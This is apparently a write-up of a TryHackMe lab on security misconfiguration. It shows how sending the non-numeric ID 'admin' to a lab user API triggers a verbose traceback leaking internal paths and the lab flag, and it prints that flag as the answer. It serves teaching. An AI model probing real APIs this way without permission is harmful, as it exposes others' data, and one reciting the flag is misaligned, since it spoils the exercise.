



# TryHackMe — OWASP Top 10 2025: Security Misconfigurations (AS02)

## Overview

This task is part of the **OWASP Top 10 2025** learning path on TryHackMe, focusing on **Security Misconfigurations (AS02)**.

Security misconfiguration occurs when an application, server, API, or infrastructure component is deployed with unsafe default settings, unhardened environment properties, or verbose error logging. Unlike traditional source-code logic bugs, the application may function as intended, but its operational environment or error-handling setup creates an unintended attack vector.

In this exercise, I investigated a **User Management API** on port `5002`. By supplying non-numeric input to an endpoint expecting integer values, the application triggered an unhandled exception that returned detailed debugging info, stack traces, internal paths, and the lab flag.

> **Lab Environment:** TryHackMe  
> **Category:** OWASP Top 10 2025 — AS02: Security Misconfigurations  
> **Target:** User Management API (`10.114.189.174:5002`)  
> **Technique:** Information Disclosure via Verbose Exception Handling & Debug Leakage

---

## Learning Objectives

- Define security misconfigurations and understand their operational risks.
- Perform black-box enumeration against REST API endpoints.
- Conduct boundary and input-fuzzing tests using non-numeric payloads.
- Identify sensitive information leaks exposed through runtime tracebacks.
- Implement secure error handling and production environment hardening controls.

---

## What Is Security Misconfiguration?

A security misconfiguration occurs when systems, cloud assets, or software frameworks are deployed with insecure defaults or incomplete hardening settings.

Common vulnerability patterns include:

- Default credentials or weak system passwords left unchanged.
- Unnecessary ports, debugging endpoints, or administrative routes exposed to the internet.
- Misconfigured cloud storage permissions (e.g., public AWS S3, Azure Blob, or GCP buckets).
- Missing authentication or authorization controls on internal API paths.
- Verbose error messages exposing stack traces, internal file paths, and environment secrets.
- Active debug flags (`debug=True`) running in publicly accessible production environments.
- Unpatched dependencies, legacy software, or exposed AI/ML pipeline controls.

---

## Target Enumeration

The target machine was reachable at `http://10.114.189.174:5002`. Navigating to the index page revealed a minimal web interface documenting the primary API endpoint:

```text
GET /api/user/<user_id>
```
# Exploitation Steps
## Step 1 — Testing Valid API Input
To establish a baseline for expected application behavior, a valid numeric user ID request was made:
```tetx
GET /api/user/123 
Host: 10.114.189.174:5002
```

Response Payload:
```text
{
  "email": "john@example.com",
  "id": "123",
  "name": "John Doe"
}
```

The API successfully returned standard JSON user record data.
## Step 2 — Testing Invalid/Non-Numeric Input
To test input validation and exception-handling logic, the endpoint was queried using the non-numeric string admin:
```command
GET /api/user/admin HTTP/1.1
Host: 10.114.189.174:5002
```
The server responded with an exposed debug_info object:
```text
{
  "debug_info": {
    "flag": "THM{V3RB0S3_3RR0R_L34K}",
    "error": "Invalid user ID format: admin. Flag: THM{V3RB0S3_3RR0R_L34K}",
    "traceback": "Traceback (most recent call last):\n  File \"/app/app.py\", line 21, in get_user\n    raise ValueError(f\"Invalid user ID format: {user_id}. Flag: {FLAG}\")\nValueError: Invalid user ID format: admin. Flag: THM{V3RB0S3_3RR0R_L34K}\n"
  }
}
```

## Flag
```text
THM{V3RB0S3_3RR0R_L34K}
```
